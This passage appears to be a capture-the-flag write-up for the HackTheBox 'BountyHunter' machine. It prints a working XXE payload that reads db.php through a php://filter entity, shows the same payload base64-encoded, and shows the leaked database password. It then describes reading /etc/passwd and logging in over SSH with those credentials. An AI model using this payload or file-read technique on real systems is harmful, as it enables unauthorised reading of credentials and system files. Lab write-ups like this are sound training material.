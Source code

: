 # user

## xxe vulnerability

````xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>qdadaTitle &xxe;</title>
		<cwe>qdadaCWE</cwe>
		<cvss>qdadaCVSS Score</cvss>
		<reward>$29.99</reward>
		</bugreport>
````
- recall that fuzzing had discovered <span class="myTurquoise"><b>portal.php</b></span> and <span class="myTangerine"><b>db.php</b></span>
- <span class="myTurquoise"><b>portal.php</b></span> had yielded an xml formatted method of data exchange.
- now, that xml is modified to test the vulnerability by reaching for <span class="myTangerine"><b>db.php</b></span> discovered through fuzzing earlier.

## encoding the vulnerability

![](src/BountyHunter.HTB-07.gif)

````bash
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIHJlcGxhY2UgWzwhRU5USVRZIHh4ZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9ZGIucGhwIj4gXT4KICAgICAgICA8YnVncmVwb3J0PgogICAgICAgIDx0aXRsZT5xZGFkYVRpdGxlICZ4eGU7PC90aXRsZT4KICAgICAgICA8Y3dlPnFkYWRhQ1dFPC9jd2U+CiAgICAgICAgPGN2c3M+cWRhZGFDVlNTIFNjb3JlPC9jdnNzPgogICAgICAgIDxyZXdhcmQ+JDI5Ljk5PC9yZXdhcmQ+CiAgICAgICAgPC9idWdyZXBvcnQ+Cgo=
````
- the xxe is encoded into a base64 payload


![](BountyHunter.HTB-08.png)

- the urlencode base64 payload replaces the value for the data parameter
- what returns is the base64 encoded content for <span class="myTangerine"><b>db.php</b></span>

![](BountyHunter.HTB-08.1.png)
````php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
````



![](BountyHunter.HTB-09.png)
- using a similar method, /etc/passwd is fetched to arrive at possible usernames for the discovered credentials
- two accounts have access to bash; <span class="myTurquoise"><b>root</b></span> and <span class="myTangerine"><b>development</b></span>.



![](BountyHunter.HTB-10.png)
- credentials <span class="myYellow"><b>development</b></span>  :  <span class="myYellow"><b>m19RoAU0hP41A1sTsq6K</b></span> are able to logon